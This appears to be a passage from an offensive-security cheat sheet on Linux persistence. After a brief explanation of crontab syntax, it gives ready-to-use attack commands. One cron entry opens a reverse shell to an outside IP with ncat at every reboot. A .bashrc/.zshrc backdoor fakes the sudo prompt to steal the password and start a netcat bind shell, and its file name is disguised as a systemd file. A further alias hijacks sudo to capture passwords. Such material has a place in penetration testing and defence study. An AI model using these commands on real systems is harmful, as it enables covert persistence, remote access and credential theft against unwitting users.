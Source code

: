 ## Crontab

Crontab (short for cron table) is a configuration file for scheduling tasks (cron jobs) in Unix-like systems. It allows users to automate repetitive commands at specific times or intervals.

A crontab entry follows this format:

```ps1
* * * * * command-to-execute
| | | | |
| | | | └── Day of the week (0-7, Sunday = 0 or 7)
| | | └──── Month (1-12)
| | └────── Day of the month (1-31)
| └──────── Hour (0-23)
└────────── Minute (0-59)
```

Run a script every time the system reboots.

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 10.10.10.10 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Bash Configuration File

The ~/.bashrc file is a user-specific configuration script for Bash (Bourne Again Shell). It runs automatically whenever a new interactive, non-login shell is opened (e.g., when opening a terminal).

Example of a backdoor in `.bash_rc` where a reverse shell is triggered when the user is using the `sudo` command:

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

Add the following line inside the user's `.bashrc` file to hijack the sudo command and write the content of the input into `/tmp/pass`.

```powershell
chmod u+x ~/.hidden/fakesudo
echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```
